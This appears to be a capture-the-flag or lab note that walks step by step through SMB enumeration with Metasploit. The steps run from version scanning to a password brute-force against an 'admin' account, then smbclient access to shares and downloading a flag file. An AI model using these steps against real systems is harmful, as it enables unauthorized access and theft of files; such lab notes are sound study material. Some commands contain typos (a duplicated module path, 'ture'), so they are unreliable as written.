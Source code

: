 # SMB Enumeration

**Stap 1**: Service version detection
> Sometimes it returns wrong OS
> Check what service is running in () after the detected OS
```bash
msf5> search type:auxiliary name:smb
msf5> use auxiliary/scanner/smb/smb_version
msf5> run
```

**Step 2**: Enumerate users
```bash
# User enumeration module
msf5> use auxiliary/scanner/smb/smb/enumusers
> run
```

**Step 3**: Enumerate the shares
```bash
# Shares enumeration module
msf5> use auxiliary/scanner/smb/smb_enumshares

# ShowFiles option -> true (show detailed info)
> set ShowFiles ture
> run
```

**Step 4**: Gain access to the shares
```bash
# Try brute force password for username:admin
# Log in module
msf5> use auxiliary/scanner/smb/smb_login

# Specify user
> set SMBUser admin

# Set password file
# Use Metasploit framework password list
> set PASS_FILE usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
> run
```

**Step 5**: Access the files within the shares
```bash
# Exit (use non Metasploit module)
> exit

# Try to list sahres as user:admin
~# smbclient -L \\\\<target IP>\\ -U admin

# Choose a file from Sharename in Output (e.g. public)
~# smbclient \\\\<target IP>\\public -U admin

# Explore
# List files in the directory
\> ls
# Move current directory (e.g. to file names secret)
\> cd secret
# Download file (e.g. flag.txt)
\> get flag
```

**Step 6**: Open downloaded file
```bash
# After exit smbclient
~# cat flag
```